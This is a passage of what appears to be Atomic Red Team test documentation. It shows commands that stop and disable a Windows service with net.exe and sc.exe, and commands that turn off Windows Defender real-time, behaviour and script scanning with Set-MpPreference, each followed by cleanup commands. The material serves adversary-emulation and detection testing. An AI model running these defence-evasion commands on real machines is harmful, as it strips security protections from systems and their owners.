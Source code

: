 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net.exe stop #{service_name}
sc.exe config #{service_name} start= disabled
```

#### Cleanup Commands:
```cmd
sc.exe config #{service_name} start= auto >nul 2>&1
net.exe start #{service_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #15 - Tamper with Windows Defender ATP PowerShell
Attempting to disable scheduled scanning and other parts of windows defender atp. Upon execution Virus and Threat Protection will show as disabled
in Windows settings.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-MpPreference -DisableRealtimeMonitoring 1
Set-MpPreference -DisableBehaviorMonitoring 1
Set-MpPreference -DisableScriptScanning 1
Set-MpPreference -DisableBlockAtFirstSeen 1
```

#### Cleanup Commands:
```powershell
Set-MpPreference -DisableRealtimeMonitoring 0
Set-MpPreference -DisableBehaviorMonitoring 0
Set-MpPreference -DisableScriptScanning 0
Set-MpPreference -DisableBlockAtFirstSeen 0
```





<br/>
<br/>
